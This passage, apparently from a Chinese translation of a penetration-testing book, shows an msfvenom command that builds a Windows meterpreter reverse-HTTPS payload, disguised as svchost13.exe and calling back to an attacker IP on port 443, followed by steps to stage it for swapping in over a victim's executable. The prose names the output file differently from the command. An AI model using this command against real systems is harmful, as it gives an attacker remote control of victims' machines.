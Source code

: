 我们通过运行以下命令来构建该漏洞：

```
msfvenom -a x86 –platform windows -p windows/meterpreter/reverse_https LHOST=192.168.204.128 LPORT=443  -f exe -o svchost13.exe

```

`-a`标志用于设置架构，即 x86。`–platform`标志将设置操作系统，即 Windows。`-p`标志将设置要使用的有效负载类型。我们还将添加攻击者的机器 IP 地址和要连接的侦听端口。这里，我们使用的是端口 443。我们将使用反向 https 连接来连接到攻击者的机器。`-f`标志是要写入的文件类型。这里是`exe`。最后，`-o`标志指示 venom 写出文件名`ftpbasicsvr.exe`，这是我们要替换的文件名：

![Replacing the executable](img/image00889.jpeg)

我们现在有一个恶意负载。你不是总想有恶意的时候吗？这是你的大好机会！

我们需要将文件放在 Kali 攻击机器上，用户可以将其复制到受害者机器上。因此，打开 Nautilus，右键单击并复制：

![Replacing the executable](img/image00890.jpeg)
